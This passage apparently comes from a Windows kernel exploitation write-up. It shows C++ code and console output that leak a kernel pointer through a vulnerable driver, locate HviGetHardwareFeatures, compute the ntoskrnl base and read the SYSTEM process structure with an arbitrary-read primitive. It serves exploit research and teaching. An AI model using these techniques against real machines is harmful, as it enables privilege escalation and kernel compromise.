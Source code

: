 ```c++
    printf_s("\t[++] HviGetHardwareFeatures Offset: %llx\n", hvigethwf_offset);
```

Now, to move onto the code to parse out the `PspSystemQuotaBlock`. Rechecking the allocation and adding a print out for the offsets, I noticed it is 'almost' always located at offsets `0x20` and `0x50`.

```
C:\Users\n00b\Desktop>.\demo.exe
        [**] Opening handle to driver!
[20]> fffff8062da53880
[50]> fffff8062da53880
[20]> fffff8062da53880
[50]> fffff8062da53880
...
[50]> fffff8062da53880
```

I updated my code with this in mind. To avoid leaking the wrong value I decided to loop the leak and validate that both these offsets had the same value on separate attempts, which was enough to avoid BSOD in 99% of cases. 

```c++
int main() {
    ...
    ULONGLONG psystemquotablock_one;
    ULONGLONG psystemquotablock_two;

    for (int i = 0; i < 3; i++) {
        // Read value from both offsets, only proceed if they match
        psystemquotablock_one = leak(DriverHandle, 0x20);
        psystemquotablock_two = leak(DriverHandle, 0x50);
        if (psystemquotablock_one == psystemquotablock_two) {
            //Print the value, so you can wave at the wrong address just before the BSOD
            printf_s("\t[++] PspSystemQuotaBlock: %llx\n", psystemquotablock_one);

            ULONGLONG hvigethwf = walk_nt(DriverHandle, psystemquotablock_one);
            printf_s("\t[++] HviGetHardwareFeatures: %llx\n", hvigethwf);

            // Calculate nt base addr using offset and address found
            ULONGLONG nt_base = hvigethwf - hvigethwf_offset;
            printf_s("\t[++] ntoskrnl Base Addr: % llx\n", nt_base);
            printf_s("\t[++] PsInitialSystemProcess: %llx\n", nt_base + PSISP_offset);

            ULONGLONG sys_eproc = arbitrary_read(DriverHandle, nt_base + PSISP_offset);
            printf_s("\t[++] SYSTEM _EPROC: %llx\n", sys_eproc);
```

Much of the above code assumes that the `walk_nt` function can resolve for the `HviGetHardwareFeatures` method. This is then used with the loaded offset to get the `ntoskrnl base address` Lets discuss how that works to find the correct function signature. I apologize in advance for the below - but I can't argue with results.

The function starts with the `PsSystemQuotaBlock` address and in a loop reads at an offset of `-0x10` to try and find the header for the function signature. If not, it will then increment the offset decrement by `0x10`. Both signature block cases are checked for when a matching QWORD header is found.
